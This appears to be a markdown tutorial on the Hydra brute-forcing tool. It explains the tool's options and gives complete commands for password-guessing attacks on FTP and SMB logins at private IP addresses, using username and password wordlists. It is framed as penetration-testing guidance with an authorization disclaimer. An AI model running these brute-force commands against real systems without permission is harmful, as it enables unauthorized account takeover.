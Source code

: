 
---

```markdown
# Hydra Password Cracking Guide

## Introduction
Hydra is a powerful brute-forcing tool used to test the strength of passwords across various protocols (e.g., FTP, SMB, SSH). Below are detailed examples and explanations for using Hydra effectively.

---

## Basic Syntax
```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> <TARGET_IP> <SERVICE> [OPTIONS]
```

### Key Options:
- `-L`: Path to the username wordlist (capital `L`).
- `-l`: Single username (small `l`).
- `-P`: Path to the password wordlist (capital `P`).
- `-p`: Single password (small `p`).
- `-s`: Target port number (e.g., FTP uses `21`, SMB uses `445`).
- `-V`: Verbose mode (prints login attempts in real-time).
- `-t`: Number of parallel tasks (threads). Common values: `2, 4, 8, 16, 32`.

---

## Examples

### 1. FTP Brute-Force
**Command:**
```bash
hydra -L /root/username.txt -P /root/password.txt 192.168.0.105 -s 21 ftp -V -t 32
```

**Explanation:**
- `-L /root/username.txt`: Username wordlist.
- `-P /root/password.txt`: Password wordlist.
- `192.168.0.105`: Target IP.
- `-s 21`: FTP service port.
- `-V`: Verbose output.
- `-t 32`: 32 parallel threads.

---

### 2. SMB Brute-Force (Port 445)
**Command:**
```bash
hydra -L /root/username.txt -P /root/password.txt 192.168.0.121 -s 445 smb -V -t 32
```

**Alternative Syntax:**
```bash
hydra -L /root/username.txt -P /root/password.txt smb://192.168.0.121 -V
```

**Explanation:**
- `smb://192.168.0.121`: Target IP with protocol prefix.
- No `-s` needed if using the protocol prefix.

---

### 3. SMB Brute-Force (Single Username)
**Command:**
```bash
hydra -l forensic -P /root/password.txt smb://192.168.0.121 -V
```

**Explanation:**
- `-l forensic`: Single username (`forensic`).
- `-P /root/password.txt`: Password wordlist.

---

### 4. SMB Brute-Force (Single Password)
**Command:**
```bash
hydra -L /root/username.txt -p admin 192.168.0.121 -s 445 smb -V
```

**Explanation:**
- `-p admin`: Single password (`admin`).
- `-L /root/username.txt`: Username wordlist.

---

## Notes
1. **Wordlists**:
   - Common wordlists: `/usr/share/wordlists/rockyou.txt` (passwords), `/usr/share/wordlists/dirb/common.txt` (usernames).
   - Custom wordlists can be generated using tools like `crunch` or `cewl`.

2. **Performance**:
   - Increase `-t` for faster brute-forcing, but avoid overwhelming the target.
   - Use `-V` to monitor progress.

3. **Ethical Considerations**:
   - Ensure explicit authorization before testing.
   - Document findings and report responsibly.

---

## Troubleshooting
- **Connection Issues**: Verify the target IP and service are reachable.
- **False Positives**: Check logs or use `-V` for detailed output.
- **Slow Performance**: Reduce threads (`-t`) or use a smaller wordlist.

---

## Legal Disclaimer
**Authorized Use Only**: This guide assumes you have permission to conduct penetration testing. Unauthorized use is illegal.
```

---
